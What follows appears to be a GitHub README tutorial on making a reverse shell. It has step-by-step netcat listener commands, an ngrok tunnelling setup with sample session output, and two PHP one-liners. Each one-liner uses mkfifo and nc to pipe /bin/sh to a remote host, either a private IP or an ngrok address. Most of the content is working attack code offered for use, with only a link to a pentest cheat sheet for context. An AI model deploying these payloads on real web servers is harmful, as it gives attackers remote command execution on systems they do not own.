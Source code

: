 # REVERSE SHELL COMMAND

## reverse shell in localhost

run netcat in termnal
```
nc -lvnp 5555
```

find your ip
```
ipp addr
```
it will show
<br>
<br>

php code

```php
<?php system('rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.0.5.5 5555 >/tmp/f'); ?>
```
<br>
<br>
<br>

## reverse shell using ngrok

run netcat in termnal
```
nc -lvnp 5555
```

forward the port using ngrok
```
ngrok tcp 5555
```
it will show
<br>
<br>
ngrok<br>
Session Status&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;online<br>
Account&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;BISWAJIT DEBNATH (Plan: Free)                        
Version&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;3.10.0                                                                                       
Region&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;India (in)                                                                                    
Latency&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;74ms            
Web Interface&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;http://127.0.0.1:4040     
Forwarding&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;tcp://0.tcp.in.ngrok.io:17188 -> localhost:5555
<br>
<br>

php code

```php
<?php system('rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 0.tcp.in.ngrok.io 17188 >/tmp/f'); ?>
```

<BR>
<BR>
<BR>

NOTE: https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet